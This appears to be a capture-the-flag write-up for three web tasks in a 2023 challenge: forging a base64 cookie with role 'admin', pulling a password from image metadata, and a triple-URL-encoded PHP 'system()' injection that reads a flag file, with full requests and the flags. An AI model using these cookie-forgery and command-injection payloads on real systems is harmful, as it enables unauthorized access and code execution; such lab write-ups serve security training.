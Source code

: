 # STS Cyber Challenge 2023 Write-up

## Web 

### Task - Myktybek  

We see that the data is transmitted via cookie in base64 format.

Try to change role to `admin` and send request.

    {"username":"Myktybek","email":"myktybek@moshnyi.bala","role":"admin"}

Encode it to Base64

    eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ==

Request:

    GET / HTTP/1.1
    Host: 172.17.0.1:8082
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,ima ge/avif,image/webp,image/apng, */*;q=0.8,application/signe d-exchange; v=b3;q=0.7
    Accept-Encoding: gzip, deflate 
    Accept-Language: en-US, en; q-0.9
    Cookie: user_data-
    eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ%3d%3d
    Connection: close

![image](https://github.com/user-attachments/assets/ee83fa8c-3ae7-4f00-b4f2-2fa144e546cb)

FLAG 

    STS{th1s_fl4g_1s_e4sy}

### Task - Entrance

We can see the authorization page and a picture in the background.

Download the image and check for meta data.

You can use `exiftool`

`exiftool filename.png`

![image](https://github.com/user-attachments/assets/946ab524-7221-4d4f-ab9c-1cc16189518a)

Password: `U2Qqw26nKfzt2FTTc4xKGp4M5Md3Ch`

You can login with this password and see the flag!
    
![UchihaItachi](https://github.com/user-attachments/assets/2720ac06-cf09-42db-9bef-6d0a9a7eaf11)

FLAG:

    STS{L0g1n3d_Successfull_001}

### Task - Calculator

    POST /calculate.php HTTP/1.1
    Host: 172.17.0.1:8081
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv: 109.0)
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif.image/webp.*/*;q=0.8
    Accept-Language: en-US,en:q-0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213
    Origin: http://172.17.0.1:8081
    Connection: close
    Referer: http://172.17.0.1:8081/
    Upgrade-Insecure-Requests: 1
    
    expression-
    system%252528%252527cat%252520%25252Fvar%25252Fwww%25252Fhtml%25252F%25252F%25252F%25252F%25252Fflag%25255F833d4eb913a86511905cc51ae5197f679bf1f8debf4292ef2789529d9a8f015e%25252Etxt%252527%252529%252538

Triple Url encoding

    system('cat /var/www/html/////flag_833d4eb913a86511905cc51ae5197f679bf1f8debf4292ef2789529d9a8f015e.txt')


FLAG: 

    STS{RC3_D0UBLE_3nC0d1NG_GJ}
